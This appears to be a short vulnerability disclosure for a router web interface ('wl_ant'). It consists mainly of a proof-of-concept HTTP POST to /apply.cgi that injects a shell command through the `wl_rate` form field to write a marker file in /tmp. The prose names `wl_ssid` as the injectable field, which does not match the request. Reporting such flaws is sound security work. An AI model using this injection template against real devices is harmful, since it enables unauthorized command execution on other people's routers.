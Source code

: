 # wl_ant

in function `start_EPI`, we can inject `wl_ssid` to do anything

# PoC
plz replace the session

```http
POST /apply.cgi;session_id=ee76bb45012c149b26e22fa0037333fa HTTP/1.1
Host: 192.168.1.1
Content-Length: 137
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/SingleForward.asp;session_id=ee76bb45012c149b26e22fa0037333fa
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

need_reboot=1&commit=1&need_action=1&nvset_cgi=1&StartEPI=1&wl_rate=%3Becho%20%22hacker_payload_wl_rate%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s
```



# result
I successfully touch a file with the content "hacker_payload_wl_rate"
![alt text](imgs/image.png)